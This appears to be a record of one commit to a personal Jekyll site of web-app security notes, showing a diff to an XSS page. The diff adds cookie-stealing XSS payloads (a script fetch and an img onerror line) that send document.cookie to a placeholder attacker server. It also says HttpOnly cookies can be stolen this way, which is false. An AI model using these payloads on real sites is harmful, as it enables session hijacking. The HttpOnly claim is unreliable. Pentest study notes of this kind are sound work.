

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from webappnotes/XSS.md, in a window 1280 px wide. Shown: the top 465 px of the page, without its empty margins (0-784 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated xss

```diff
--- a/webappnotes/XSS.md
+++ b/webappnotes/XSS.md
@@ -16,4 +16,5 @@
 
 
 Cookies with HttpOnly can be stolen with XSS
-- `<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>`
+- `<script>fetch('http://{server}?c='+document.cookie)</script>`
+- `<img src=x onerror=this.src='http://{server}/?c='+document.cookie>`
```
